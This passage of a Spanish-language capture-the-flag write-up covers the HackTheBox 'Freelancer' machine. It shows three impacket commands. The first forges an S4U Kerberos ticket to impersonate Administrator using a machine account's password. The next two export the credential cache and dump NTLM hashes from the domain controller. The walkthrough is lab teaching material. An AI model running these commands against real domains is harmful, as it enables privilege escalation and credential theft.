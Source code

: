 ### 4. Obtención del Ticket

Solicitamos un ticket de servicio (S4U) para impersonar al administrador con el siguiente comando:

```bash
impacket-getST -spn 'cifs/DC.freelancer.htb' -impersonate Administrator -dc-ip 10.10.11.5 'freelancer.htb/ANSW3R$:Fuego123@'
```

Este ticket se guarda en `Administrator@cifs_DC.freelancer.htb@FREELANCER.HTB.ccache`, que es un archivo de caché de credenciales **Kerberos**.

<figure>
    <img src="/assets/img/Freelancer/imagen69.png" alt="Obtención de ticket">
</figure>

### 5. Exportar Archivo

Exportamos el archivo de caché con el siguiente comando:

```bash
export KRB5CCNAME=Administrator@cifs_DC.freelancer.htb@FREELANCER.HTB.ccache
```

<figure>
    <img src="/assets/img/Freelancer/imagen70.png" alt="Exportar archivo de caché">
</figure>

### 6. Uso de **Impacket Secretsdump**

Utilizamos **impacket-secretsdump** para obtener los hashes NTLM del **DC**:

```bash
impacket-secretsdump 'freelancer.htb/Administrator@DC.freelancer.htb' -k -no-pass -dc-ip 10.10.11.5 -target-ip 10.10.11.5 -just-dc-ntlm
```
